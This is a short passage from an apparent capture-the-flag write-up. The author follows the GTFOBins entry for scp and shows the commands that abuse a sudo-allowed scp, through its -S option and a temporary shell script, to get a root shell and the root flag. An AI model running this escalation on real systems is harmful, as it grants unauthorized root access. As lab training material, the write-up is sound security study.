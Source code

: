 ```shell
```
Then I check the [`scp` in gtfobins ](https://gtfobins.github.io/gtfobins/scp/), then I can see how to exploit it:

![evidence](./static/23-gtfobins.png)

When I follow the steps:
```shell
$ TF=$(mktemp)
$ echo 'sh 0<&2 1>&2' > $TF
$ chmod +x "$TF"
$ sudo scp -S $TF x y:
```
Then I get the `root` shell, and I get the `root` flag:

![evidence](./static/24-censored-rootflag.png)

